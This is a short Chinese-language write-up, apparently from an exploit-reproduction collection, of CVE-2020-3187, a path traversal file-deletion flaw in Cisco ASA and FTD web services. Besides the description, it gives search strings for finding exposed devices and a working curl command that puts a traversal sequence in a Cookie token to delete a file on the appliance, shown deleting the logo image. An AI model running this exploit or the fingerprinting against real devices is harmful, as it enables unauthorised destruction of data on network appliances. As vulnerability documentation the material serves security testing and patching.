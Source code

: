 # Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

- Cisco ASA设备：



![](./images/202202162118289.png)



- Cisco FTD设备：



![](./images/202202162119368.png)

## 网络测绘

```
/+CSCOE+/
Cisco-ASA
```

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](./images/202202162119941.png)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](./images/202202162119367.png)



使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![](./images/202202162119779.png)

成功删除图标

